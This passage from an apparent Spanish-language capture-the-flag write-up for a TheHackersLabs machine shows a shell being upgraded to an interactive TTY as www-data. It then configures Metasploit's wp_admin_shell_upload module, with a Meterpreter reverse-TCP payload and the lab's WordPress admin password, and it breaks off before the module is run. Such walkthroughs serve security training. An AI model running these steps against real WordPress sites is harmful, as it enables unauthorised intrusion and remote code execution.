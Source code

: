 Ya solo obtengamos una sesión interactiva:
```bash
# Paso 1:
script /dev/null -c bash

# Paso 2:
CTRL + Z

# Paso 3:
stty raw -echo; fg

# Paso 4:
reset -> xterm

# Paso 5:
export TERM=xterm
export SHELL=bash
stty rows 51 columns 189
www-data@TheHackersLabs-Thefirstavenger:/var/www/html/wp1/wp-content/themes/twentytwentythree/patterns$ whoami
www-data
```
Listo.

<br>

<h2 id="Metasploit2">Ganando Acceso a la Máquina Víctima con Módulo wp_admin_shell_upload de Metasploit Framework</h2>

Vamos a aprovechar que tenemos una sesión activa de **Metasploit**, para utilizar un módulo con el que podemos ganar acceso a la máquina víctima.

Para esto, necesitamos la contraseña del **usuario admin** y, en este caso, tiene que entrar al login porque a mí me apareció un mensaje de actualizar que puedes rechazar, si no lo haces, el módulo fallará.

Carga el módulo:
```bash
msf6 auxiliary(scanner/http/wordpress_scanner) > use exploit/unix/webapp/wp_admin_shell_upload
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(unix/webapp/wp_admin_shell_upload) >
```

Configurémoslo:
```bash
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set RHOSTS thefirstavenger.thl
RHOSTS => thefirstavenger.thl
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set TARGETURI /wp1
TARGETURI => /wp1
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set USERNAME admin
USERNAME => admin
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set PASSWORD spongebob
PASSWORD => spongebob
```
